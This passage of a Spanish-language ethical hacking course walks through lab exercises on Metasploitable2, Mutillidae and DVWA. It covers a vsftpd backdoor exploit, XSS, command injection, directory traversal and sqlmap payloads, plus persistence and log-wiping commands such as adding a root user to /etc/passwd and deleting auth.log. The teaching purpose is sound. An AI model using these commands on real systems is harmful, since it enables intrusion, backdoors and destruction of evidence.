Desde Kali, abre terminal y escribe:

```bash
ping 192.168.1.105
```

(Suponiendo que Metasploitable tiene esa IP, puedes verla con `ifconfig` en Metasploitable)

---

### 🧪 EJEMPLO COMPLETO: Explotar una vulnerabilidad con Metasploit

🎯 **Objetivo**: Usar Metasploit desde Kali para atacar a Metasploitable2.

---

#### Paso 1: Escanear puertos con Nmap

```bash
nmap -sS -sV 192.168.1.105
```

Salida típica:

```
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 2.3.4
22/tcp   open  ssh        OpenSSH 4.7p1
...
```

> El FTP `vsftpd 2.3.4` es **vulnerable** a ejecución remota.

---

#### Paso 2: Abrir Metasploit en Kali

```bash
msfconsole
```

---

#### Paso 3: Buscar exploit para vsftpd 2.3.4

```bash
search vsftpd
```

Resultado:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### Paso 4: Usar el exploit

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### Paso 5: Configurar la IP de la víctima

```bash
set RHOSTS 192.168.1.105
```

---

#### Paso 6: Ejecutar el ataque

```bash
run
```

Resultado:

```
[*] Command shell session opened!
```

¡Tienes una **shell remota** sobre el sistema Metasploitable!

---

#### Paso 7: Explorar el sistema

Ya puedes escribir comandos como si estuvieras dentro del sistema:

```bash
whoami
ls
uname -a
```

---

### 🧠 ¿Qué aprendiste?

- Cómo instalar **Metasploitable2**.
- Cómo escanearlo con **Nmap**.
- Cómo explotarlo con **Metasploit**.
- Que **un servicio obsoleto (FTP)** puede permitir acceso total a un atacante.

---

### 🛡️ ¿Cómo se previenen estos ataques?

| Ataque usado          | Prevención                                                   |
| --------------------- | ------------------------------------------------------------ |
| FTP vulnerable        | Usar versiones actualizadas, cifradas y cerradas al público. |
| Exposición de puertos | Usar firewalls y escaneo preventivo (como Nessus).           |
| Acceso remoto         | Seguir el principio de mínimo privilegio.                    |

---

### 📚 Recursos para seguir practicando

| Recurso                 | Enlace                                                                                               |
| ----------------------- | ---------------------------------------------------------------------------------------------------- |
| Metasploitable2         | [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/) |
| Curso práctico          | [https://tryhackme.com](https://tryhackme.com)                                                       |
| Metasploit guía oficial | [https://docs.rapid7.com/metasploit/](https://docs.rapid7.com/metasploit/)                           |

---

[🔼](#índice)

---

## **865. Práctica: Cross-Site-Scripting, command injection y directorio transversal**

### 🧠 1. ¿Qué es Cross-Site Scripting (XSS)?

#### ❓ Definición:

Es una vulnerabilidad que permite al atacante **inyectar scripts maliciosos (JavaScript)** en páginas web que otros usuarios verán.

> Esto puede permitir robar cookies, sesiones o redirigir usuarios a sitios falsos.

---

#### 🧪 Ejemplo sencillo de XSS:

Si un formulario permite escribir tu nombre y devuelve:

```html
Hola <tu_nombre></tu_nombre>
```

Y tú escribes:

```html
<script>
  alert("¡Hackeado!");
</script>
```

Y la página muestra:

```html
Hola
<script>
  alert("¡Hackeado!");
</script>
```

Entonces se ejecuta el `alert()` ⇒ Esto es un XSS.

---

### 🧠 2. ¿Qué es Command Injection?

#### ❓ Definición:

Es cuando un atacante **inyecta comandos del sistema operativo** en formularios web mal protegidos.

> Esto puede permitir ejecutar `ls`, `cat`, `rm`, etc. en el servidor.

---

#### 🧪 Ejemplo básico de Command Injection:

Si hay un campo que dice "Ingresa una IP para hacer ping", y tú escribes:

```bash
127.0.0.1; ls
```

Y el servidor ejecuta:

```bash
ping 127.0.0.1; ls
```

Entonces mostrará archivos del servidor ⇒ Esto es Command Injection.

---

### 🧠 3. ¿Qué es Directory Traversal (Recorrido de directorios)?

#### ❓ Definición:

Es una vulnerabilidad que permite al atacante **navegar fuera del directorio web permitido** y acceder a archivos sensibles.

---

#### 🧪 Ejemplo simple:

La URL:

```
http://victima.com/ver_archivo.php?file=manual.txt
```

Si cambias el parámetro a:

```
file=../../../../etc/passwd
```

Podrías ver el archivo `/etc/passwd` del sistema ⇒ Esto es Directory Traversal.

---

### ✅ Instalación del entorno de pruebas: Mutillidae

Ya que Mutillidae incluye todas estas vulnerabilidades, usaremos **Kali Linux** + **Mutillidae**.

---

#### 🔹 Paso 1: Instala Apache, PHP y Git en Kali Linux

```bash
sudo apt update
sudo apt install apache2 php php-mysqli git mariadb-server -y
```

---

#### 🔹 Paso 2: Clona Mutillidae

```bash
cd /var/www/html
sudo git clone https://github.com/webpwnized/mutillidae.git
sudo chown -R www-data:www-data mutillidae
```

---

#### 🔹 Paso 3: Inicia Apache y MariaDB

```bash
sudo systemctl start apache2
sudo systemctl start mariadb
```

---

#### 🔹 Paso 4: Configura la base de datos

Accede desde el navegador en Kali:

```
http://localhost/mutillidae
```

Haz clic en **"Setup/Reset the DB"** para inicializar la base de datos.

---

#### 🔹 Paso 5: Baja la seguridad para practicar

En el menú izquierdo de Mutillidae:

```
Toggle Hints ➜ Yes
Toggle Security ➜ Set to Low
```

---

### 🧪 EJEMPLOS COMPLETOS

---

#### ✅ EJEMPLO 1: XSS (Cross-Site Scripting)

1. En el menú izquierdo:
   `OWASP Top 10 ➜ A7 - XSS ➜ Reflected (GET)`
   URL:

   ```
   http://localhost/mutillidae/index.php?page=xss-reflected.php
   ```

2. En el campo de texto, escribe:

```html
<script>
  alert("XSS funcionando");
</script>
```

3. Presiona “Go” y verás una ventana emergente.

✅ **Exploit exitoso de XSS Reflejado**

---

#### ✅ EJEMPLO 2: Command Injection

1. En el menú:
   `OWASP Top 10 ➜ A1 - Injection ➜ OS Command Injection`

2. Verás un campo para ingresar una dirección IP. Escribe:

```bash
127.0.0.1; ls
```

3. Haz clic en “Ping”.

Verás la salida del ping **más un listado de archivos del servidor web**. ¡Eso significa que pudiste ejecutar comandos!

✅ **Command Injection exitoso**

---

#### ✅ EJEMPLO 3: Directory Traversal

1. En el menú:
   `OWASP Top 10 ➜ A5 - Security Misconfiguration ➜ Directory Browsing`

2. URL del ejemplo:

```
http://localhost/mutillidae/index.php?page=directory-traversal.php
```

3. En el campo de archivo, escribe:

```bash
../../../../etc/passwd
```

4. Presiona “Submit”

Verás el contenido del archivo `/etc/passwd`, que contiene usuarios del sistema Linux.

✅ **Directory Traversal exitoso**

---

### 🧠 ¿Qué aprendiste?

- **XSS** permite ejecutar scripts en el navegador de otros.
- **Command Injection** permite ejecutar comandos del sistema en el servidor.
- **Directory Traversal** permite leer archivos sensibles fuera del directorio web.

---

### 🛡️ ¿Cómo se protegen estas vulnerabilidades?

| Vulnerabilidad      | Protección recomendada                                                                |
| ------------------- | ------------------------------------------------------------------------------------- |
| XSS                 | Escapar y sanitizar entradas (HTML entities).                                         |
| Command Injection   | Validar entradas y usar funciones seguras (`escapeshellcmd`, `parametrización`).      |
| Directory Traversal | Validar rutas, usar `realpath()`, restringir el acceso fuera de carpetas específicas. |

---

### 📚 Recursos para seguir practicando

- 🧪 [https://tryhackme.com](https://tryhackme.com)
- 🧪 [https://owasp.org/www-project-mutillidae-ii/](https://owasp.org/www-project-mutillidae-ii/)
- 💻 Curso gratuito de OWASP: [https://owasp.org/Top10/](https://owasp.org/Top10/)

---

[🔼](#índice)

---

## **866. Fases del hacking**



### 🧠 ¿Qué son las fases del hacking?

Las **fases del hacking** son los pasos que sigue un hacker ético (o malicioso) para **comprometer un sistema** o **evaluar su seguridad**.

Estas fases son parte de una **metodología estructurada**, que permite:

- Identificar vulnerabilidades
- Explorar vectores de ataque
- Obtener acceso no autorizado
- Mantener el acceso
- Borrar evidencias

---

### 🧭 Las 5 fases del hacking ético

---

#### 🔍 1. **Reconocimiento (Reconnaissance)**

Es la **fase de recolección de información**. Aquí el atacante busca obtener toda la información posible del objetivo **sin interactuar directamente** con él (pasiva) o **interactuando directamente** (activa).

##### Ejemplos:

- Búsqueda de IPs, dominios, subdominios, correos.
- Información pública en redes sociales o sitios web.
- Whois, Google hacking, DNSdumpster, Shodan.

##### Herramientas:

- `whois`, `nslookup`, `theHarvester`, `recon-ng`

---

#### 🌐 2. **Escaneo (Scanning)**

Aquí el atacante **detecta puertos abiertos, servicios y sistemas operativos**. Es como "mapear" el sistema objetivo.

##### Ejemplos:

- Escanear puertos abiertos en una IP.
- Detectar si hay un servidor web, FTP o SSH funcionando.
- Identificar vulnerabilidades en servicios detectados.

##### Herramientas:

- `nmap`, `masscan`, `nikto`, `OpenVAS`

---

#### 🎯 3. **Acceso (Gaining Access)**

El atacante **explota vulnerabilidades** descubiertas en la fase de escaneo para **tomar el control del sistema o aplicación**.

##### Ejemplos:

- Inyección SQL para obtener contraseñas.
- Explotar un servicio vulnerable con Metasploit.
- XSS para robar sesiones.

##### Herramientas:

- `Metasploit`, `sqlmap`, `burp suite`, `hydra`, `exploit-db`

---

#### 🛠️ 4. **Mantener el acceso (Maintaining Access)**

Una vez dentro, el atacante busca **mantener el acceso** para seguir explotando el sistema.

##### Ejemplos:

- Crear un usuario oculto.
- Instalar una puerta trasera (backdoor).
- Usar un rootkit o shell persistente.

##### Herramientas:

- `netcat`, `msfvenom`, `backdoor-apk`, `persistence scripts`

---

#### 🧹 5. **Cubrir rastros (Clearing Tracks)**

El atacante borra evidencias de su presencia para **evitar ser detectado**.

##### Ejemplos:

- Borrar logs del sistema (`/var/log/auth.log`)
- Modificar timestamps de archivos.
- Eliminar shells o scripts usados.

##### Herramientas:

- Comandos de Linux (`shred`, `rm`, `touch`), `Metasploit`, `logcleaner`

---

### 🔧 Instalación de herramientas para cada fase (en Kali Linux)

Kali ya viene con muchas herramientas preinstaladas, pero puedes asegurarte de tener:

```bash
sudo apt update && sudo apt install nmap sqlmap metasploit-framework hydra theharvester nikto -y
```

---

### ✅ EJEMPLO COMPLETO PASO A PASO

🎯 **Objetivo:** Hacer un mini pentest a una máquina virtual vulnerable llamada **Metasploitable 2** (puedes usar VirtualBox o VMware).

---

#### 👣 Paso 1: Reconocimiento

```bash
theharvester -d metasploitable.local -l 100 -b all
```

> 🔍 Obtiene correos, hosts, y nombres públicos.

---

#### 👣 Paso 2: Escaneo

```bash
nmap -sS -sV -O 192.168.56.101
```

> 🔍 Detecta puertos abiertos y servicios. Por ejemplo, FTP, SSH, MySQL, Apache.

---

#### 👣 Paso 3: Acceso

Detectas que el servicio FTP (puerto 21) **permite acceso anónimo**:

```bash
ftp 192.168.56.101
# Usuario: anonymous
```

¡Ya estás dentro del sistema!

---

O encuentras una vulnerabilidad en un servicio con Metasploit:

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.56.101
run
```

✅ Obtienes una shell como root.

---

#### 👣 Paso 4: Mantener el acceso

```bash
netcat -lvp 4444 > shell.sh
```

O subes un script para crear un usuario:

```bash
echo "user:x:0:0::/root:/bin/bash" >> /etc/passwd
```

---

#### 👣 Paso 5: Cubrir rastros

```bash
rm -f /var/log/auth.log
history -c
```

---

### 🛡️ Recuerda: ¡Solo practicar en entornos controlados!

**Nunca hagas pruebas en redes o sitios que no sean tuyos o no tengas autorización.**
Hazlo en laboratorios como:

- 🔐 [Metasploitable 2](https://sourceforge.net/projects/metasploitable/)
- 🔐 [TryHackMe](https://tryhackme.com/)
- 🔐 [Hack The Box](https://www.hackthebox.com/)

---

### 🧠 Resumen gráfico de las fases

```
1️⃣ Reconocimiento  →  2️⃣ Escaneo  →  3️⃣ Acceso  →  4️⃣ Persistencia  →  5️⃣ Cubrir Huellas
```

---

[🔼](#índice)

---

## **867. Tipos de hacking**

### 🧠 ¿Qué es el hacking?

El **hacking** es el proceso de **manipular sistemas informáticos** para lograr un objetivo determinado. Dependiendo de la **intención** del hacker, el hacking puede ser **ético (legal)** o **malicioso (ilegal)**.

---

### 🎯 Tipos de hacking (según el "sombrero" del hacker)

Los hackers se clasifican comúnmente por **colores de sombrero**, como si fueran personajes en una historia:

---

#### 🟢 1. Hacker de sombrero blanco (White Hat)

- **Son los hackers éticos.**
- Usan sus habilidades para **proteger sistemas**, detectar vulnerabilidades y ayudar a empresas.
- Trabajan como **pentesters, analistas de seguridad, investigadores**.
- Actúan **con autorización legal**.

📌 **Ejemplo**:

- Un especialista en seguridad contratado para hackear un sistema y encontrar debilidades antes de que lo haga un atacante real.

---

#### ⚫ 2. Hacker de sombrero negro (Black Hat)

- Son los hackers **maliciosos**.
- Buscan **robar datos, dañar sistemas, extorsionar, instalar malware, etc.**
- Actúan **ilegalmente y sin permiso**.

📌 **Ejemplo**:

- Un atacante que entra a una base de datos y roba números de tarjetas de crédito para venderlos en la dark web.

---

#### ⚪⚫ 3. Hacker de sombrero gris (Grey Hat)

- Están **en medio** de los anteriores.
- Pueden vulnerar sistemas **sin autorización**, pero **sin intención maliciosa**.
- A veces informan al dueño del sistema. Otras veces, piden una recompensa.

📌 **Ejemplo**:

- Un hacker que encuentra una falla en un sistema y notifica al dueño, pero sin permiso previo.

---

#### 🟠 4. Hacktivista

- Utiliza el hacking con **fines políticos o sociales**.
- Sus acciones pueden ser legales o ilegales según el caso.
- Objetivo: **protestar, denunciar o defender una causa**.

📌 **Ejemplo**:

- Grupo Anonymous atacando sitios de gobiernos o empresas que consideran corruptas o injustas.

---

#### 💻 5. Script Kiddie

- Hackers **sin conocimientos profundos**.
- Usan herramientas y scripts creados por otros.
- Buscan fama o diversión sin saber bien lo que hacen.

📌 **Ejemplo**:

- Alguien que descarga un programa de "hacking de Facebook" y lo ejecuta sin entender cómo funciona.

---

#### 👩‍💻 6. Hacker de sombrero azul (Blue Hat)

- Hackers que **vengan una ofensa personal**, o **testean sistemas de seguridad** antes del lanzamiento (a veces confundido con el red team externo).
- En algunos casos trabajan para empresas en **bug bounty**.

📌 **Ejemplo**:

- Un hacker contratado para probar la seguridad de una app antes de su salida oficial.

---

#### 🔵 7. Hacker de sombrero rojo (Red Hat)

- Actúan como **White Hats**, pero con una actitud más **agresiva y ofensiva** contra Black Hats.
- Su objetivo: **detener a los hackers maliciosos**, incluso hackeándolos de vuelta.

📌 **Ejemplo**:

- Un experto en seguridad que encuentra un servidor de un atacante y lo inhabilita.

---

### 🧪 ¿Cómo instalar un entorno para practicar hacking ético?

Usaremos **Kali Linux** en VirtualBox, ya que Kali es la distro más usada por hackers éticos.

---

#### ✅ Requisitos:

- [ ] PC con al menos 4GB RAM y 20GB libres.
- [ ] VirtualBox instalado (o VMware).
- [ ] Imagen ISO de Kali Linux:
      🔗 [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)

---

#### ✅ Pasos para instalar Kali Linux en VirtualBox:

1. **Descarga Kali ISO** desde el sitio oficial.
2. Abre VirtualBox → "Nueva máquina virtual".
3. Asigna:

   - Nombre: Kali
   - Tipo: Linux
   - Versión: Debian 64-bit
   - RAM: al menos 2 GB
   - Disco duro: 20 GB (tipo VDI, reservado dinámicamente)

4. Monta la ISO de Kali y arranca la VM.
5. Sigue los pasos de instalación de Kali como cualquier Linux.
6. Al iniciar sesión, ya tendrás acceso a herramientas como:

   - Nmap, Metasploit, Wireshark, Burp Suite, sqlmap, etc.

---

### ✅ Ejemplo completo: White Hat vs Black Hat

Imaginemos una empresa con una aplicación vulnerable llamada **Mutillidae** (instalada en Metasploitable 2).
Te contratan como hacker ético (White Hat) para **evaluar la seguridad del sitio web**.

---

#### 🔹 Fase 1: Reconocimiento

```bash
whois empresa.com
nslookup empresa.com
```

---

#### 🔹 Fase 2: Escaneo

```bash
nmap -sV -A 192.168.56.101
```

Encuentras puerto 80 abierto, servidor Apache.

---

#### 🔹 Fase 3: Explotación

Encuentras una **vulnerabilidad de inyección SQL** en el login.

Con `sqlmap`:

```bash
sqlmap -u "http://192.168.56.101/mutillidae/index.php?page=login.php" --data="username=admin&password=123" --dump
```

Obtienes los usuarios y contraseñas.

---

#### 🔹 Fase 4: Reporte

Tú como hacker ético **documentas el hallazgo**, recomiendas sanitizar inputs y usar prepared statements.

✅ **Hiciste un hacking legal (White Hat).**

Pero si en vez de eso **vendieras las contraseñas en la dark web**, serías un hacker de sombrero negro (Black Hat).

---

### 🛡️ ¿Cómo convertirte en hacker ético?

1. Aprende sobre redes, sistemas operativos, programación.
2. Practica en laboratorios como:

   - [TryHackMe](https://tryhackme.com)
   - [Hack The Box](https://www.hackthebox.com)
   - Máquinas vulnerables como Metasploitable y DVWA.

3. Estudia certificaciones como:

   - CEH (Certified Ethical Hacker)
   - OSCP (Offensive Security Certified Professional)

---

### 🧠 Resumen:

| Tipo de hacker   | Intención         | Legalidad    | Ejemplo                         |
| ---------------- | ----------------- | ------------ | ------------------------------- |
| 🟢 White Hat     | Ética             | Legal        | Pentester contratado            |
| ⚫ Black Hat     | Maliciosa         | Ilegal       | Ladrón de datos                 |
| ⚪⚫ Grey Hat    | Mixta             | Depende      | Hackea sin permiso pero no daña |
| 🟠 Hacktivista   | Protesta          | Ilegal/legal | Anonymous                       |
| 🧑‍💻 Script Kiddie | Diversión         | Ilegal       | Usa scripts de otros sin saber  |
| 🔵 Blue Hat      | Testeo o venganza | Depende      | Pruebas antes del lanzamiento   |
| 🔴 Red Hat       | Defensa ofensiva  | Mixta        | Hackea a los hackers            |

---

[🔼](#índice)

---

## **868. Práctica: Obteniendo información de fuentes abiertas con OSINT Framework y Google hacking**

### 🔍 ¿Qué es OSINT?

**OSINT (Open Source Intelligence)** es la recopilación de información pública y gratuita, accesible legalmente, para analizar personas, empresas, dominios, redes sociales, etc.

#### Ejemplos de fuentes OSINT:

- Sitios web
- Redes sociales
- Google
- Dominios y registros DNS
- Noticias
- Foros y bases de datos públicas

---

### 🎯 ¿Para qué sirve OSINT?

- **Hacking ético / pentesting**: buscar información que pueda facilitar un ataque.
- **Ciberinvestigación / forense digital**: rastrear estafadores, cibercriminales.
- **Investigación empresarial o personal**: analizar competencia, reputación, amenazas.
- **Ingeniería social**: entender mejor a los objetivos antes de un ataque simulado.

---

### 🧠 Herramientas clave:

1. 🕸️ **OSINT Framework**
2. 🔍 **Google Hacking (Google Dorks)**

---

### 🛠️ Instalación y uso de OSINT Framework

#### 🔗 ¿Qué es OSINT Framework?

Es un **sitio web organizado por categorías** que enlaza a cientos de herramientas OSINT, para:

- Buscar correos
- Rastrear IPs
- Analizar redes sociales
- Investigar personas o empresas
- Buscar leaks y metadatos

#### ✅ Cómo usarlo:

No requiere instalación. Solo necesitas un navegador.

1. Ve a:
   🔗 [https://osintframework.com/](https://osintframework.com/)

2. Explora por categorías:

   - Username
   - E-mail address
   - Metadata
   - Social Networks
   - Domains
   - Leaks

3. Haz clic en cualquier opción. Por ejemplo:

   - **Username → Knowem** te lleva a una web que busca ese usuario en más de 100 redes sociales.

---

### 🔍 ¿Qué es Google Hacking o Google Dorks?

Son **comandos avanzados de búsqueda en Google** que te permiten encontrar información sensible u oculta que normalmente no aparecería.

#### ✅ Ejemplos de Google Dorks:

| Dork                    | Qué hace                           |
| ----------------------- | ---------------------------------- |
| `site:example.com`      | Busca solo dentro de ese sitio     |
| `intitle:index.of`      | Muestra directorios abiertos       |
| `filetype:pdf`          | Busca solo archivos PDF            |
| `inurl:login`           | Busca URLs con la palabra login    |
| `ext:sql`               | Encuentra archivos `.sql`          |
| `password filetype:log` | Busca posibles contraseñas en logs |

---

### ⚙️ Entorno de práctica OSINT

No necesitas instalar nada pesado. Solo:

- ✅ **Navegador web actualizado (Firefox, Chrome)**
- ✅ Kali Linux (opcional, si quieres usar herramientas como theHarvester o Maltego)
- ✅ Acceso a Internet

---

### 🧪 Ejemplo completo de práctica OSINT

#### 🎯 Objetivo: Obtener información pública sobre un dominio y su dueño.

---

#### 🧩 Paso 1: Elegir un objetivo

Vamos a investigar el dominio ficticio:
`example.com`

> ⚠️ Para practicar con un dominio real, escoge uno de tu propiedad o autorizado. No hagas esto sin permiso.

---

#### 🔎 Paso 2: Usar Google Hacking (Google Dorks)

Abre Google y busca:

```bash
site:example.com
```

→ Muestra todas las páginas indexadas del sitio.

```bash
site:example.com filetype:pdf
```

→ Encuentra archivos PDF públicos en el sitio.

```bash
inurl:admin site:example.com
```

→ Intenta encontrar paneles de administración públicos.

```bash
intitle:index.of site:example.com
```

→ Busca directorios abiertos que podrían contener archivos sin protección.

---

#### 🧩 Paso 3: Usar OSINT Framework

Ve a: [https://osintframework.com/](https://osintframework.com/)

Explora:

1. **Domain Names → WHOIS Records**

   - Selecciona `ViewDNS.info` o `Whois.domaintools.com`
   - Escribe `example.com` y obtén información como:

     - Registrante
     - Correo asociado
     - Servidores DNS
     - IP del servidor

2. **Metadata → Document Metadata**

   - Usa herramientas como `metagoofil` (en Kali) para buscar documentos con metadatos.

3. **Social Networks → LinkedIn**

   - Busca perfiles que trabajen en la empresa para posibles objetivos de ingeniería social.

---

#### 🧩 Paso 4: Complementar con herramientas de Kali Linux (opcional)

🔧 **theHarvester**: recolecta correos, subdominios, nombres, etc.

```bash
theHarvester -d example.com -b google
```

🔧 **dnsenum**: enumera información DNS de un dominio.

```bash
dnsenum example.com
```

🔧 **maltego** (requiere GUI): análisis visual de relaciones OSINT.

---

#### ✅ Resultado

Con solo herramientas públicas y legales, puedes obtener:

- Correos visibles asociados a la empresa
- Documentos mal expuestos
- Subdominios visibles
- Metadatos en archivos PDF o DOC
- Nombres de empleados en LinkedIn
- Paneles o formularios mal protegidos

Todo esto **sin tocar el sistema del objetivo**. Solo viendo lo que ya está públicamente expuesto.

---

### 🛡️ ¿Qué se aprende con esta práctica?

✔️ Lo peligroso que puede ser publicar cosas sin control

✔️ Cómo el atacante prepara sus vectores con OSINT

✔️ Que la **información pública puede ser usada para ataques dirigidos**

✔️ Que un **White Hat** puede usar OSINT para prevenir brechas

---

### 🧠 ¿Y ahora qué?

Si quieres seguir con prácticas OSINT más avanzadas:

🔗 [https://tryhackme.com/room/introductiontointelligence](https://tryhackme.com/room/introductiontointelligence)

🔗 [https://www.hackthebox.com/](https://www.hackthebox.com/)

🔗 [https://osintdojo.com/](https://osintdojo.com/)

---

[🔼](#índice)

---

## **869. Práctica: Analizar un sitio web con Nikto y Spiderfoot**

### 🧠 ¿Qué es Nikto?

**Nikto** es un escáner de vulnerabilidades web en línea de comandos.
Sirve para detectar problemas en servidores web como:

- Archivos y directorios inseguros
- Errores de configuración del servidor
- Scripts antiguos y vulnerables
- Cabeceras mal configuradas
- Software obsoleto (como Apache, PHP, etc.)

---

### ⚙️ Instalación de Nikto (en Kali Linux o cualquier Linux)

En **Kali Linux**, **ya viene instalado por defecto**.
Si no lo tienes, instálalo así:

```bash
sudo apt update
sudo apt install nikto -y
```

Verifica con:

```bash
nikto -Version
```

---

### 🧠 ¿Qué es SpiderFoot?

**SpiderFoot** es una herramienta de **OSINT automatizado**, que:

- Recolecta información sobre un dominio, IP, persona o empresa
- Usa +200 fuentes de datos (Shodan, VirusTotal, Whois, etc.)
- Puede detectar correos filtrados, puertos abiertos, tecnologías usadas, etc.

---

### ⚙️ Instalación de SpiderFoot

#### Opción 1: Ya instalado en Kali Linux

Ejecuta:

```bash
spiderfoot
```

Si no se ejecuta, instálalo así 👇

#### Opción 2: Instalar manualmente desde GitHub

1. Clona el repositorio:

```bash
git clone https://github.com/smicallef/spiderfoot.git
cd spiderfoot
```

2. Instala los requisitos:

```bash
sudo apt install python3-pip
pip3 install -r requirements.txt
```

3. Ejecuta SpiderFoot en modo web:

```bash
python3 sf.py
```

Luego abre tu navegador y ve a:

📍 `http://127.0.0.1:5001`

---

### 🔍 EJEMPLO COMPLETO: Analizar un sitio web con Nikto y SpiderFoot

Usaremos el sitio **[http://testphp.vulnweb.com](http://testphp.vulnweb.com)**, un sitio creado para prácticas legales.

---

#### 🔹 PARTE 1: Escaneo con Nikto

Ejecuta en terminal:

```bash
nikto -h http://testphp.vulnweb.com
```

Verás una salida como:

```
+ Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Apache/2.2.8 appears to be outdated.
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5
+ OSVDB-3092: /admin/: This might be an administrative login page.
...
```

#### 🧠 ¿Qué detectó Nikto?

- El servidor usa versiones obsoletas de Apache y PHP
- Faltan cabeceras de seguridad
- Hay un `/admin/` que puede usarse para ataques de fuerza bruta
- Potenciales vulnerabilidades conocidas (OSVDB)

---

#### 🔹 PARTE 2: Escaneo con SpiderFoot

1. Abre SpiderFoot:

```bash
cd spiderfoot
python3 sf.py
```

2. Abre tu navegador y entra a:

```
http://127.0.0.1:5001
```

3. Crea un nuevo escaneo:

- Nombre: `Prueba sitio vulnerable`
- Target: `testphp.vulnweb.com`
- Marca “use all modules” y presiona **Run Scan**

4. Espera unos minutos y revisa los resultados.

---

#### 📊 SpiderFoot te mostrará:

- Dirección IP del dominio
- Información del servidor
- Subdominios relacionados
- Emails expuestos
- Rutas detectadas
- Problemas de configuración
- Detalles de registros DNS, WHOIS, ASN
- Enlaces filtrados en servicios OSINT

---

### 🧠 ¿Qué aprendiste con esta práctica?

✅ Con **Nikto** detectaste configuraciones inseguras y versiones obsoletas

✅ Con **SpiderFoot** recolectaste información OSINT detallada

✅ Ambos te ayudan a hacer un **reconocimiento inicial completo**

---

### 🛡️ ¿Cómo proteger un sitio contra esto?

- Usar **cabeceras de seguridad**: X-Frame-Options, X-XSS-Protection, Content-Security-Policy
- Mantener el software actualizado (Apache, PHP, WordPress, etc.)
- Evitar dejar rutas como `/admin/` expuestas
- Usar WAF y autenticación robusta

---

### 📚 Recursos extra

| Herramienta        | Enlace                                                                             |
| ------------------ | ---------------------------------------------------------------------------------- |
| SpiderFoot         | [https://github.com/smicallef/spiderfoot](https://github.com/smicallef/spiderfoot) |
| Nikto              | [https://github.com/sullo/nikto](https://github.com/sullo/nikto)                   |
| Sitio para pruebas | [http://testphp.vulnweb.com](http://testphp.vulnweb.com)                           |

---

[🔼](#índice)

---

## **870. ¿Es necesario un hacking ético? Hacking ético como profesión**

### ✅ ¿Es necesario el hacking ético?

#### 📌 **Sí, es absolutamente necesario**.

El **hacking ético** es una **disciplina de ciberseguridad** que consiste en **identificar y corregir vulnerabilidades** en sistemas informáticos **antes de que lo hagan los atacantes maliciosos**.

#### 🧠 ¿Por qué es importante?

Imagina que tienes una casa. ¿Dejarías las puertas abiertas?
Un hacker ético sería como un **experto en seguridad** que **prueba todas las puertas y ventanas** para asegurarse de que estén bien cerradas.

---

### 🔥 ¿Qué puede pasar si no hay hacking ético?

#### Ejemplo real:

- En 2017, Equifax (una empresa financiera) **sufrió una brecha de datos** donde robaron datos personales de más de **147 millones de personas**.
- Todo por **una vulnerabilidad no corregida** en su servidor web (Apache Struts).

💡 **Un hacker ético habría podido detectar esa vulnerabilidad antes.**

---

### 👨‍💻 ¿Qué hace un hacker ético?

1. Escanea sistemas y redes en busca de fallos.
2. Prueba contraseñas débiles o servicios abiertos.
3. Intenta explotar vulnerabilidades de forma controlada.
4. Reporta todo lo que encuentra para que sea corregido.
5. A veces ayuda a definir políticas de seguridad.

---

### 🛡️ ¿Cuál es la diferencia entre un hacker ético y uno malicioso?

| Hackers Éticos (White Hat) 🧑‍💻     | Hackers Maliciosos (Black Hat) 🕵️‍♂️ |
| --------------------------------- | --------------------------------- |
| Trabajan con permiso legal        | Atacan sin autorización           |
| Ayudan a proteger                 | Buscan robar o dañar              |
| Reportan fallos                   | Ocultan sus acciones              |
| Su trabajo es legal y bien pagado | Su trabajo es ilegal              |

---

### 💼 Hacking ético como **profesión**

#### 🌐 ¿Dónde trabajan los hackers éticos?

- Empresas de tecnología y telecomunicaciones
- Bancos y aseguradoras
- Gobiernos y fuerzas armadas
- Consultoras de ciberseguridad
- Como **freelancers** o en plataformas de **bug bounty** (HackerOne, Bugcrowd)

---

#### 💰 ¿Cuánto gana un hacker ético?

Depende del país y experiencia:

- **Junior** (0-2 años): \$500 – \$1500 USD/mes
- **Intermedio** (2-5 años): \$1500 – \$4000 USD/mes
- **Senior** (+5 años): \$4000 – \$10,000 USD/mes
- **Bug bounty**: puedes ganar de \$50 a miles de dólares por vulnerabilidad reportada.

---

### 📚 ¿Qué se necesita para empezar?

#### 🔑 Conocimientos básicos:

- Redes y protocolos (IP, TCP, DNS, HTTP)
- Sistemas operativos (Linux, Windows)
- Programación básica (Python, Bash)
- Herramientas como **Nmap**, **Wireshark**, **Burp Suite**, **Metasploit**
- Saber cómo funcionan las vulnerabilidades (XSS, SQLi, CSRF, etc.)

#### 🧪 Herramientas de práctica:

- **Kali Linux**
- **Metasploitable**, **DVWA**, **Mutillidae**
- Plataformas: [TryHackMe](https://tryhackme.com/), [Hack The Box](https://hackthebox.com/), [PortSwigger Web Security Academy](https://portswigger.net/web-security)

---

### 🛠️ ¿Cómo instalar un entorno de hacking ético básico?

1. **Instalar Kali Linux** (máquina virtual o dual boot):

   - Descarga: [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)
   - Instálalo en VirtualBox:
     [Guía paso a paso de instalación →](https://www.kali.org/docs/virtualization/install-virtualbox-guest-vm/)

2. **Instalar máquinas vulnerables**:

   - [Metasploitable 2](https://sourceforge.net/projects/metasploitable/)
   - [DVWA](https://github.com/digininja/DVWA)
   - [Mutillidae](https://github.com/webpwnized/mutillidae)

3. **Conectarlas en red interna o NAT en VirtualBox** para practicar de forma segura.

---

### ✅ EJEMPLO COMPLETO: simulación de hacking ético

🎯 Objetivo: Identificar una vulnerabilidad en un sitio vulnerable y reportarla.

#### Escenario:

Tenemos una máquina con **DVWA** (Damn Vulnerable Web Application) y Kali Linux.

#### Fase 1: Reconocimiento

```bash
nmap -sV 192.168.56.101
```

Detectamos un servidor web en el puerto 80.

#### Fase 2: Análisis

Entramos a:
`http://192.168.56.101/DVWA`

Vamos al módulo **"Command Injection"**

Probamos:

```bash
127.0.0.1 && whoami
```

💥 Sale como resultado:

```bash
www-data
```

